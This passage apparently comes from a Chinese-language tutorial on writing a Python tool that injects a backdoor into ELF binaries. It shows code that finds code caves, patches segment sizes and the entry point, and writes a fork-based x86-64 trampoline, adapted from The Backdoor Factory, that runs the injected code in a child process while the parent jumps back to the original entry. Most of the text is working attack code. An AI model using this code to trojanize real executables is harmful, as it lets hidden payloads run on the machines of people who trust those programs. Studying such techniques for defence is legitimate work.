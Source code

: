 ```python
        cave_segs.append({'index': self.info.segments.index(c_seg),
                            'cave_size': real_size})
    return cave_segs
```

接下来就算 Patch 上 entry 和 Program Header，让辅助代码和后门得以载入内存并运行。Segment 的新 filesz 由 `Segment 的旧 filesz + 注入代码长度` 得到。而程序的新入口点则是由 `Segment 的虚拟地址 + Segment 的旧filesz` 得到。

```python
new_size = target['p_filesz'] + len(code)
logger.info(f'Writing file/mem size to 0x{new_size:x}')
self.extend_seg_size(target_idx, new_size)

code_va = target['p_vaddr'] + target['p_filesz']
logger.info(f'Writing entry to 0x{code_va:x}')
self.modify_entry(code_va)

def extend_seg_size(self, seg_pos: int, new_size: int):
    '''
    Patch segment to increase LOAD file size
    '''
    file_pos = self.info.header['e_phoff'] + \
        seg_pos * self.info.header['e_phentsize']
    if self.info.header['e_machine'] == 62:
        file_pos += 32
    # TODO: abstract elf types to adapt more architectures
    else:
        pass
    self.file.seek(file_pos)
    # TODO: static pack size
    self.file.write(pack('<Q', new_size) * 2)

def modify_entry(self, new_entry: int):
    self.file.seek(24)
    self.file.write(pack('<Q', new_entry))
```

然后是往 Code Cave 处加入辅助代码和后门。后门代码的位置由 `目标 Segment 的文件偏移 + 目标 Segment 的文件大小` 计算得到，辅助代码改动自 The backdoor factory。这里需要注意的是辅助代码的逻辑，首先是用 `fork` 创建子进程，如果当前程序是子进程的话，则执行后门，如果当前程序不是子进程的话，就通过计算当前指令地址和原 entry 的距离，以跳转到原程序的 entry。

```python
raw = [b'\x6a\x39',                         # push  0x39
       b'\x58',                             # pop   rax
       b'\x0f\x05',                         # syscall
       b'\x48\x85\xc0',                     # test  rax, rax
       b'\x74\x12',                         # jz    16
       b'\xe8\x00\x00\x00\x00',             # call  $+5
       b'\x48\x8b\x2c\x24',                 # mov   rbp, [rsp]
       b'\x48\x81\xed\x00\x00\x00\x00',     # sub   rbp, offset
       b'\xff\xe5',                         # jmp   rbp
       inject_code]                         # inject code
code = b''.join(raw)
code_foffset = target['p_offset'] + target['p_filesz']
entry_offset = code_va + \
    len(b''.join(raw[:6])) - self.info.header['e_entry']
raw[7] = raw[7][:3] + pack('<I', entry_offset)
logger.info(f'entry_offset == {entry_offset}')
logger.info(f'Writing code to 0x{code_foffset:x}')
self.add_machine_code(code_foffset, b''.join(raw))

def add_machine_code(self, pos: int, code: bytes):
    '''
    Add code in the increased LOAD segments
    '''
```